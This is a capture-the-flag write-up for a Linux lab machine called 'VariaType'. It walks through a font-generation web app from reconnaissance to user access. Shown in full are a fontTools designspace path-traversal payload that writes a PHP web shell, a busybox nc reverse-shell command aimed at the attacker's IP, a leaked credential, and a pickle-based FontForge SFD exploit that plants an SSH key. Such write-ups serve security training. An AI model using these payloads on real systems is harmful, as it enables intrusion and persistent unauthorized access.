- Machine Name: VariaType
- OS Type: Linux
- Difficulty: Medium

## Port Scanning - Service & Version Enumeration

```powershell
Nmap scan report for 10.129.8.69
Host is up, received user-set (0.17s latency).
Scanned at 2026-03-15 11:41:29 IST for 71s
Not shown: 63978 closed tcp ports (reset), 1555 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

## Enumeration

### Port 80/HTTP

i found Port 80 running it means the server is running a web server let’s visit the site:



it redirects to **`variatype.htb`** we need to add the entry to /etc/hosts file.

```powershell
"10.129.9.244 variatype.htb" | sudo tee -a /etc/hosts
```


again visiting the website we got the **success!**, so we can see that the website is about some font generation, in meantime let’s start the scanning for any interesting VHOST (virtual host) fuzzing.

```powershell
ffuf -u http://variatype.htb -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-words.txt -H "Host: FUZZ.variatype.htb" -fs 169
```



in no time we got another sub domain/virtual host (vhost) let’s add this to our /etc/hosts and then visit `portal.variatype.htb`



so it has a login page, and portal is looking like any internal validation.

for now let’s try to generate some fonts in main site



it has some upload files functionality.

i’ve tried to upload some txt file in .designspace 



so it is validating the files in backend, while researching on google i found - https://github.com/fonttools/fonttools/security/advisories/GHSA-768j-98cg-p3fv

so in POC there was the .designspace file

```powershell
<?xml version='1.0' encoding='UTF-8'?>
<designspace format="5.0">
  <axes>
    <axis tag="wght" name="Weight" minimum="100" maximum="900" default="400"/>
  </axes>
  
  <sources>
    <source filename="source-light.ttf" name="Light">
      <location>
        <dimension name="Weight" xvalue="100"/>
      </location>
    </source>
    <source filename="source-regular.ttf" name="Regular">
      <location>
        <dimension name="Weight" xvalue="400"/>
      </location>
    </source>
  </sources>
  
  <!-- Filename can be arbitrarily set to any path on the filesystem -->
  <variable-fonts>
    <variable-font name="MaliciousFont" filename="../../tmp/newarbitraryfile.json">
      <axis-subsets>
        <axis-subset name="Weight"/>
      </axis-subsets>
    </variable-font>
  </variable-fonts>
</designspace>
```

here it shows that the file name is the file name to create, and there’s a python script which is used to generate font files (ttf)

```powershell
#!/usr/bin/env python3
import os

from fontTools.fontBuilder import FontBuilder
from fontTools.pens.ttGlyphPen import TTGlyphPen

def create_source_font(filename, weight=400):
    fb = FontBuilder(unitsPerEm=1000, isTTF=True)
    fb.setupGlyphOrder([".notdef"])
    fb.setupCharacterMap({})
    
    pen = TTGlyphPen(None)
    pen.moveTo((0, 0))
    pen.lineTo((500, 0))
    pen.lineTo((500, 500))
    pen.lineTo((0, 500))
    pen.closePath()
    
    fb.setupGlyf({".notdef": pen.glyph()})
    fb.setupHorizontalMetrics({".notdef": (500, 0)})
    fb.setupHorizontalHeader(ascent=800, descent=-200)
    fb.setupOS2(usWeightClass=weight)
    fb.setupPost()
    fb.setupNameTable({"familyName": "Test", "styleName": f"Weight{weight}"})
    fb.save(filename)

if __name__ == '__main__':
    os.chdir(os.path.dirname(os.path.abspath(__file__)))
    create_source_font("source-light.ttf", weight=100)
    create_source_font("source-regular.ttf", weight=400)
```

and we got success.



but our main motive is to get RCE.

below poc is sending ping request to our system

```powershell
<?xml version="1.0" encoding="UTF-8"?>
<designspace format="5.0">
    <axes>
        <!-- XML injection occurs in labelname elements with CDATA sections -->
        <axis tag="wght" name="Weight" minimum="100" maximum="900" default="400">
            <labelname xml:lang="en"><![CDATA[<?php echo shell_exec("ping 10.10.15.140");?>]]></labelname>
            <labelname xml:lang="fr">MEOW2</labelname>
        </axis>
    </axes>

    <sources>
        <source filename="source-light.ttf" name="Light">
            <location>
                <dimension name="Weight" xvalue="100"/>
            </location>
        </source>

        <source filename="source-regular.ttf" name="Regular">
            <location>
                <dimension name="Weight" xvalue="400"/>
            </location>
        </source>
    </sources>

    <variable-fonts>
        <variable-font name="MyFont" filename="output.ttf">
            <axis-subsets>
                <axis-subset name="Weight"/>
            </axis-subsets>
        </variable-font>
    </variable-fonts>

    <instances>
        <instance name="Display Thin" familyname="MyFont" stylename="Thin">
            <location>
                <dimension name="Weight" xvalue="100"/>
            </location>
            <labelname xml:lang="en">Display Thin</labelname>
        </instance>
    </instances>

</designspace>
```

and we’ll listen using the tcpdump for any ICMP traffic, the file processed successfully but no success. now we are sure that the our malicious file is on the server but now we need the way to access it.

while fuzzing the directories for the portal website i found that the .git is present so we can dump the git repo using git dumper giving us the full source code and commits and let see if we can find any way in..

```powershell
gobuster dir -u http://portal.variatype.htb/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/quickhits.txt
```



let’s use git dumper to get dump the github repo - https://github.com/arthaud/git-dumper

```powershell
git-dumper http://portal.variatype.htb/ gitdump
```



let’s check if we have anything interesting 



we have only 1 file



and it also doesn’t have anything. let’s run `git status` to check if any changes have been made to file or not



we can see that the auth.php is modified let’s check the commit logs



to view the changes in files during this commits we can use `git show` command

```powershell
git show 753b5f5957f2020480a19bf29a0ebc80267a4a3d
```



and we got the credentials of the gitbot user.

```powershell
gitbot:G1tB0t_Acc3ss_2025!
```

let’s use the creds to login to machine



Bingo!! we have the two successfully generated font files

after many attempts the below payload finally worked

```powershell
<?xml version="1.0" encoding="UTF-8"?>
<designspace format="5.0">
    <axes>
        <!-- XML injection occurs in labelname elements with CDATA sections -->
        <axis tag="wght" name="Weight" minimum="100" maximum="900" default="400">
            <labelname xml:lang="en"><![CDATA[<?php echo system($_GET['cmd']);?>]]></labelname>
            <labelname xml:lang="fr">MEOW2</labelname>
        </axis>
    </axes>

    <sources>
        <source filename="source-light.ttf" name="Light">
            <location>
                <dimension name="Weight" xvalue="100"/>
            </location>
        </source>

        <source filename="source-regular.ttf" name="Regular">
            <location>
                <dimension name="Weight" xvalue="400"/>
            </location>
        </source>
    </sources>

    <variable-fonts>
        <variable-font name="MyFont" filename="../../../../../../../var/www/portal.variatype.htb/public/shell.php">
            <axis-subsets>
                <axis-subset name="Weight"/>
            </axis-subsets>
        </variable-font>
    </variable-fonts>

    <instances>
        <instance name="Display Thin" familyname="MyFont" stylename="Thin">
            <location>
                <dimension name="Weight" xvalue="100"/>
            </location>
            <labelname xml:lang="en">Display Thin</labelname>
        </instance>
    </instances>

</designspace>
```



and we are able to write to directory /var/www/portal.variatype.htb/public directory

and then try to access the web shell 



and then i used busybox to get reverse shell

```powershell
http://portal.variatype.htb/shell.php?cmd=busybox%20nc%2010.10.15.140%20443%20-e%20/bin/bash
```



after enumerating little bit i found that there’s another user on box, steve. but we don’t have the permission to access the user’s folder

after little bit more enumeration i found below bash script in /opt directory which is running as steve

```powershell
#!/bin/bash
#
# Variatype Font Processing Pipeline
# Author: Steve Rodriguez <steve@variatype.htb>
# Only accepts filenames with letters, digits, dots, hyphens, and underscores.
#

set -euo pipefail

UPLOAD_DIR="/var/www/portal.variatype.htb/public/files"
PROCESSED_DIR="/home/steve/processed_fonts"
QUARANTINE_DIR="/home/steve/quarantine"
LOG_FILE="/home/steve/logs/font_pipeline.log"

mkdir -p "$PROCESSED_DIR" "$QUARANTINE_DIR" "$(dirname "$LOG_FILE")"

log() {
    echo "[$(date --iso-8601=seconds)] $*" >> "$LOG_FILE"
}

cd "$UPLOAD_DIR" || { log "ERROR: Failed to enter upload directory"; exit 1; }

shopt -s nullglob

EXTENSIONS=(
    "*.ttf" "*.otf" "*.woff" "*.woff2"
    "*.zip" "*.tar" "*.tar.gz"
    "*.sfd"
)

SAFE_NAME_REGEX='^[a-zA-Z0-9._-]+$'

found_any=0
for ext in "${EXTENSIONS[@]}"; do
    for file in $ext; do
        found_any=1
        [[ -f "$file" ]] || continue
        [[ -s "$file" ]] || { log "SKIP (empty): $file"; continue; }

        # Enforce strict naming policy
        if [[ ! "$file" =~ $SAFE_NAME_REGEX ]]; then
            log "QUARANTINE: Filename contains invalid characters: $file"
            mv "$file" "$QUARANTINE_DIR/" 2>/dev/null || true
            continue
        fi

        log "Processing submission: $file"

        if timeout 30 /usr/local/src/fontforge/build/bin/fontforge -lang=py -c "
import fontforge
import sys
try:
    font = fontforge.open('$file')
    family = getattr(font, 'familyname', 'Unknown')
    style = getattr(font, 'fontname', 'Default')
    print(f'INFO: Loaded {family} ({style})', file=sys.stderr)
    font.close()
except Exception as e:
    print(f'ERROR: Failed to process $file: {e}', file=sys.stderr)
    sys.exit(1)
"; then
            log "SUCCESS: Validated $file"
        else
            log "WARNING: FontForge reported issues with $file"
        fi

        mv "$file" "$PROCESSED_DIR/" 2>/dev/null || log "WARNING: Could not move $file"
    done
done

if [[ $found_any -eq 0 ]]; then
    log "No eligible submissions found."
fi
```

now it was parsing files directly and doing another things like `/usr/local/src/fontforge/build/bin/fontforge` binary so i checked on google and found there’s CVE associated with the fontforge https://github.com/advisories/GHSA-6465-93fg-6pfr

<aside>
💡

FontForge SFD File Parsing Heap-based Buffer Overflow Remote Code Execution Vulnerability. This vulnerability allows remote attackers to execute arbitrary code on affected installations of FontForge. User interaction is required to exploit this vulnerability in that the target must visit a malicious page or open a malicious file.

**The specific flaw exists within the parsing of SFD files**

</aside>

and we can see in our code that SFD files are allowed to process.



after trying a bit i got hit up with another CVE - https://www.zerodayinitiative.com/advisories/ZDI-25-1187/

```powershell
This vulnerability allows remote attackers to execute arbitrary code on affected installations of FontForge. User interaction is required to exploit this vulnerability in that the target must visit a malicious page or open a malicious file.
```

Using AI generated below script which just write my public SSH key into steve user’s directory and generate the SFD file.

```powershell
#!/usr/bin/env python3
import pickle
import os
SSH_KEY = "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICatFkEXk4xA+yOXmCIlrbAZkcGzRebuWj4QTTYSNyZa kali@kali"
class Exploit(object):
    def __reduce__(self):
        cmd = f'mkdir -p /home/steve/.ssh && echo "{SSH_KEY}" >> /home/steve/.ssh/authorized_keys && chmod 700 /home/steve/.ssh && chmod 600 /home/steve/.ssh/authorized_keys'
        return (os.system, (cmd,))
payload = pickle.dumps(Exploit(), protocol=0)
payload_str = payload.decode('ascii')
payload_escaped = payload_str.replace('\\', '\\\\').replace('"', '\\"')
sfd_content = f'''SplineFontDB: 3.2
FontName: MaliciousFont
FullName: Malicious Font
FamilyName: Malicious
Weight: Medium
Copyright: Test
UComments: ""
Version: 001.000
ItalicAngle: 0
UnderlinePosition: -100
UnderlineWidth: 50
Ascent: 800
Descent: 200
InvalidEm: 0
LayerCount: 2
Layer: 0 0 "Back"  1
Layer: 1 0 "Fore"  0
XUID: [1021 566 858162624 14]
FSType: 0
OS2Version: 0
OS2_WeightWidthSlopeOnly: 0
OS2_UseTypoMetrics: 0
CreationTime: 1733412000
ModificationTime: 1733412000
PfmFamily: 17
TTFWeight: 500
TTFWidth: 5
LineGap: 0
VLineGap: 0
Panose: 2 0 6 3 0 0 0 0 0 0
OS2TypoAscent: 0
OS2TypoAOffset: 1
OS2TypoDescent: 0
OS2TypoDOffset: 1
OS2TypoLinegap: 0
OS2WinAscent: 0
OS2WinAOffset: 1
OS2WinDescent: 0
OS2WinDOffset: 1
HheadAscent: 0
HheadAOffset: 1
HheadDescent: 0
HheadDOffset: 1
OS2Vendor: 'PfEd'
MarkAttachClasses: 1
DEI: 91125
PickledData: "{payload_escaped}"
Encoding: UnicodeBmp
UnicodeInterp: none
NameList: AGL For New Fonts
DisplaySize: -48
AntiAlias: 1
FitToEm: 0
WinInfo: 0 32 22
BeginChars: 65536 1
StartChar: space
Encoding: 32 32 0
Width: 250
VWidth: 0
Flags: W
LayerCount: 2
EndChar
EndChars
EndSplineFont
'''
with open('malicious.sfd', 'w') as f:
    f.write(sfd_content)
print("Generated malicious.sfd")
```

> replace the SSH public key by generating using - ssh-keygen -t ed25519
> 

transfer the malicious.sfd to target machine and place it into `/var/www/portal.variatype.htb/public/files` 

after 1-2 minute try to SSH into machine

